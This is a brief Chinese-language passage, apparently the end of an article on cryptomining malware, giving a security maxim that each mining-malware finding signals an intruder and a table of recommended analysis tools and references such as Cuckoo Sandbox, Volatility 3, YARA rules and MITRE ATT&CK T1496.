> **安全箴言：** 挖矿恶意软件虽然不像勒索软件或APT攻击那样引人注目，但它作为攻击者"试水"的工具和技术验证平台，往往是更严重攻击的前奏。每一例挖矿恶意软件发现，都应该被视为网络中存在恶意活动者的警告信号，而不只是"CPU有点高"的运维事件。

#### 推荐阅读与工具资源

| 类别 | 资源 | 用途 |
|------|------|------|
| 工具 | XMRig源码分析（GitHub） | 理解挖矿程序工作原理 |
| 工具 | Cuckoo Sandbox | 自动化恶意软件分析平台 |
| 工具 | Volatility 3 | Linux内存取证分析 |
| 工具 | YARA规则库 | Florian Roth的yara-rules项目 |
| 知识 | MITRE ATT&CK T1496 | 资源劫持战术详解 |
| 知识 | Monero RandomX规范 | 官方算法白皮书 |
